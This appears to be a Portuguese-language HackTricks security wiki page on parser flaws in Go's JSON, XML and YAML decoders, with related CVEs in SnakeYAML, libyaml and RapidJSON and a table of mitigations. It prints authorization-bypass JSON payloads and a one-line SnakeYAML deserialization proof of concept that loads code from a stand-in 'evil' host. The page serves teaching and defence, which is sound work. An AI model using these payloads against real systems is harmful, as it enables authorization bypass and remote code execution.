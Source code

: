 # JSON, XML & Yaml Hacking & Issues

{{#include ../banners/hacktricks-training.md}}

## Go JSON Decoder

Os seguintes problemas foram detectados no Go JSON, embora possam estar presentes em outras linguagens também. Esses problemas foram publicados em [**este post no blog**](https://blog.trailofbits.com/2025/06/17/unexpected-security-footguns-in-gos-parsers/).

Os parsers JSON, XML e YAML do Go têm um longo histórico de inconsistências e padrões inseguros que podem ser explorados para **burlar a autenticação**, **escalar privilégios** ou **exfiltrar dados sensíveis**.

### (Un)Marshaling Dados Inesperados

O objetivo é explorar structs que permitem a um atacante ler/escrever campos sensíveis (por exemplo, `IsAdmin`, `Password`).

- Exemplo de Struct:
```go
type User struct {
Username string `json:"username,omitempty"`
Password string `json:"password,omitempty"`
IsAdmin  bool   `json:"-"`
}
```
- Vulnerabilidades Comuns

1. **Tag ausente** (sem tag = campo ainda é analisado por padrão):
```go
type User struct {
Username string
}
```
Carga útil:
```json
{"Username": "admin"}
```
2. **Uso incorreto de `-`**:
```go
type User struct {
IsAdmin bool `json:"-,omitempty"` // ❌ wrong
}
```
Carga útil:
```json
{"-": true}
```
✔️ Maneira adequada de bloquear campo de ser (des)serializado:
```go
type User struct {
IsAdmin bool `json:"-"`
}
```
### Diferenças de Parser

O objetivo é contornar a autorização explorando como diferentes parsers interpretam a mesma carga útil de maneira diferente, como em:
- CVE-2017-12635: contorno do Apache CouchDB via chaves duplicadas
- 2022: RCE 0-click do Zoom via inconsistência do parser XML
- GitLab 2025 contorno SAML via peculiaridades do XML

**1. Campos Duplicados:**
O `encoding/json` do Go pega o **último** campo.
```go
json.Unmarshal([]byte(`{"action":"UserAction", "action":"AdminAction"}`), &req)
fmt.Println(req.Action) // AdminAction
```
Outros analisadores (por exemplo, Jackson do Java) podem levar o **primeiro**.

**2. Insensibilidade a Maiúsculas e Minúsculas:**
Go é insensível a maiúsculas e minúsculas:
```go
json.Unmarshal([]byte(`{"AcTiOn":"AdminAction"}`), &req)
// matches `Action` field
```
Até truques de Unicode funcionam:
```go
json.Unmarshal([]byte(`{"aKtionſ": "bypass"}`), &req)
```
**3. Incompatibilidade entre serviços:**
Imagine:
- Proxy escrito em Go
- Serviço de AuthZ escrito em Python

O atacante envia:
```json
{
"action": "UserAction",
"AcTiOn": "AdminAction"
}
```
- Python vê `UserAction`, permite
- Go vê `AdminAction`, executa


### Confusão de Formato de Dados (Poliglotas)

O objetivo é explorar sistemas que misturam formatos (JSON/XML/YAML) ou falham abertamente em erros de parser, como:
- **CVE-2020-16250**: HashiCorp Vault analisou JSON com um parser XML após o STS retornar JSON em vez de XML.

O atacante controla:
- O cabeçalho `Accept: application/json`
- Controle parcial do corpo JSON

O parser XML do Go analisou **de qualquer forma** e confiou na identidade injetada.

- Payload elaborado:
```json
{
"action": "Action_1",
"AcTiOn": "Action_2",
"ignored": "<?xml version=\"1.0\"?><Action>Action_3</Action>"
}
```
Resultado:
- **Go JSON** parser: `Action_2` (case-insensitive + last wins)
- **YAML** parser: `Action_1` (case-sensitive)
- **XML** parser: parses `"Action_3"` dentro da string

---

## Vulnerabilidades Notáveis de Parser (2023-2025)

> Os seguintes problemas publicamente exploráveis mostram que a análise insegura é um problema de múltiplas linguagens — não apenas um problema do Go.

### Deserialização RCE do SnakeYAML (CVE-2022-1471)

* Afeta: `org.yaml:snakeyaml` < **2.0** (usado pelo Spring-Boot, Jenkins, etc.).
* Causa raiz: `new Constructor()` deserializa **classes Java arbitrárias**, permitindo cadeias de gadgets que culminam em execução remota de código.
* PoC de uma linha (abrirá a calculadora no host vulnerável):
```yaml
!!javax.script.ScriptEngineManager [ !!java.net.URLClassLoader [[ !!java.net.URL ["http://evil/"] ] ] ]
```
* Correção / Mitigação:
1. **Atualizar para ≥2.0** (usa `SafeLoader` por padrão).
2. Em versões mais antigas, use explicitamente `new Yaml(new SafeConstructor())`.

### libyaml Double-Free (CVE-2024-35325)

* Afeta: `libyaml` ≤0.2.5 (biblioteca C utilizada por muitas ligações de linguagem).
* Problema: Chamar `yaml_event_delete()` duas vezes leva a um double-free que atacantes podem transformar em DoS ou, em alguns cenários, exploração de heap.
* Status: Rejeitado upstream como “uso indevido da API”, mas distribuições Linux enviaram a versão corrigida **0.2.6** que libera defensivamente o ponteiro.

### RapidJSON Integer (Under|Over)-flow (CVE-2024-38517 / CVE-2024-39684)

* Afeta: Tencent **RapidJSON** antes do commit `8269bc2` (<1.1.0-patch-22).
* Bug: Em `GenericReader::ParseNumber()`, a aritmética não verificada permite que atacantes criem literais numéricos enormes que se envolvem e corrompem o heap — permitindo, em última análise, a escalada de privilégios quando o gráfico de objetos resultante é usado para decisões de autorização.

---

### 🔐 Mitigações (Atualizado)

| Risco                                | Correção / Recomendação                                      |
|-------------------------------------|------------------------------------------------------------|
| Campos desconhecidos (JSON)         | `decoder.DisallowUnknownFields()`                          |
| Campos duplicados (JSON)            | ❌ Sem correção na stdlib — valide com [`jsoncheck`](https://github.com/dvsekhvalnov/johnny-five) |
| Correspondência sem distinção de maiúsculas (Go) | ❌ Sem correção — valide tags de estrutura + pré-canonize a entrada   |
| Dados lixo XML / XXE                | Use um parser endurecido (`encoding/xml` + `DisallowDTD`)     |
| Chaves desconhecidas YAML            | `yaml.KnownFields(true)`                                   |
| **Desserialização YAML insegura**   | Use SafeConstructor / atualize para SnakeYAML ≥2.0            |
| libyaml ≤0.2.5 double-free          | Atualize para **0.2.6** ou versão corrigida da distro            |
| RapidJSON <commit corrigido         | Compile contra a versão mais recente do RapidJSON (≥Julho 2024)              |

## Referências

- Baeldung – “Resolvendo CVE-2022-1471 Com SnakeYAML 2.0”
- Ubuntu Security Tracker – CVE-2024-35325 (libyaml)

{{#include ../banners/hacktricks-training.md}}
